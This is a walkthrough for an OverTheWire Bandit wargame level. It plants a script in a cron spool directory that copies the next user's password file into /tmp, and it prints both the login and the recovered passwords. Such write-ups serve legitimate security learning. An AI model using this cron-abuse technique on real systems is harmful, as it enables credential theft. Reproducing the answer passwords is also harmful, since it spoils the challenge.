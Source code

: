 [$]-> ssh bandit23@bandit.labs.overthewire.org -p 2220
[$]-> jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
[$]-> cat /usr/bin/cronjob_bandit24.sh
[$]-> mkdir /tmp/sawin
[$]-> cd /tmp/sawin
[$]-> vim password.sh

# paste the following code 
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/sawin/password

[$]-> chmod 777 password.sh
[$]-> cp password.sh /var/spool/bandit24

# give it a minute to allow to run cron job then cat
[$]-> cat password

The password for bandit24 is: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 
